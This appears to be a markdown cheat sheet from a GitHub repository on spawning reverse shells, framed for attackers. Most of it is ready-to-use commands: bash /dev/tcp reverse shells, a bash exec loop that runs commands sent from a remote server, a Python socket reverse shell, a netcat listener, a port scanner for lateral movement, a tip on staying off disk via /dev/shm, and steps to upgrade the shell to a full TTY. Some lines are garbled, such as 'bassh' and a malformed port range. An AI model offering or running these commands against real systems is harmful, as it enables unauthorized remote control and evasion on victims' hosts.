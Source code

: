 # Shells

>  A shell is software/protocol that provides an interface for an CLI to the underlying OS


### BASH

######  REMEMBER IF YOU NEVER WANT TO TOUCH DISK ON THE REMOTE HOST ALWAYS USE /dev/shm (SHARED MEMORY) , AS THIS IS TREATED AS VIRTUAL MEMORY AND MOUNTED AS tmpfs NOTHING IS STORED OR WRITTEN TO DISK. THE BONUS IS THAT YOU WILL SEE A PERFORMANCE INCREASE TOO.
<hr>
Bash as it stands, is a (the most popular) shell on its own, but can also provide some really neat tricks to allow for all kinds of shell related goodness, such as a reverse shell.

#### Bash reverse shell

* Spawn a reverse shell back to your server using /dev/tcp or /dev/udp
    > bash -i >& /dev/tcp/\<yourserver>/8080 0>&1 
    
		Example:  bash -i >& /dev/tcp/10.10.10.1/8080 0>&1
    <br>
    > or bassh -c bash -i >& /dev/tcp/\<yourserver>/8080 0>&1 
    
		Example: bash -i >& /dev/tcp/yourserver.com/443 0>&1
    <br>

#### Bash /dev/tcp or /dev/udp port scanner

 * Using /dev/tcp or /dev/udp to do a port scan, useful for checking connected hosts for laterial movement
    * Example looking for open web connection on a remote host when no port scammer is available:
        <br> 

			 for port in {21.\.443}; do echo -e "GET / HTTP/1.0\n\n" > bash -i >& /dev/tcp/\<server>/\$port 0>&1 && echo -e "\n[Port $port is UP]\n"; done

<br>
 
 * Of course you could also always put this in a shell script, as originally found on oreilly.com/pub/h/5299 and small mod by Luke Bonanomi [bash port scanner](https://github.com/rupert0/shell/blob/master/bash/portscanner)
<br>

    	#!/usr/bin/env bash
    	
	    for port in \$(yes scan | head -$3)
		    do
		    (( start++ ))
		    if [[ -n $(echo '' > /dev/$2/$1/$start && echo "up") ]];
			    then
				echo "Port $start" >> scan;
		    fi
	    done;
	    clear;
	    cat scan;
	    rm scan;

			> ./portscan.sh 127.0.0.1 tcp 122 2> /dev/null
<br>

 * Another useful reverse shell we could do with bash and /dev/tcp or /dev/udp is create a connection that basically mimics netcat but done purley in bash, start off with a netcat listener on your server:
	> nc -lvvvnp 8001
	
*	Then on the remote server we use some bash-fu
	> exec 5<>/dev/tcp/\<yourserver>/8001 && while read line 0<&5; do $line 2>&5 >\&5; done
	
* This will allow everything you type on your server to be executed on the remote server and the output is conveniently piped back to you 
<hr>

### Python
Of course the reverse shell options are always going to be dependent on the installed scripting languages, but almost all systems have python installed. That is great news as it allows us to do a few handy tricks from a reverse shell to setting the tty to act and feel like a full shell with tab complete and the works.

#### Python reverse shell

 - Spawn a reverse shell back to your server using python built in libraries.
 

	> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("\<yourserver>",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	
- Once you have the shell (with sh or any dumb shell) you can then escalate if you so wish to bash or the full shell of your choice with :

	    $ python -c "import pty;pty.spawn('/bin/bash')"
- Then background the shell and set stty and then foreground again for a complete fully functional shell, to background the shell use Ctrl Z and type :
 
		$ stty raw -echo
- Then foreground again with fg. I have on occasion had to type reset as well.
- Advantages to this is of course the ability to run things like ssh and vim have tab-complete, job control and history to mention a few.
<hr>

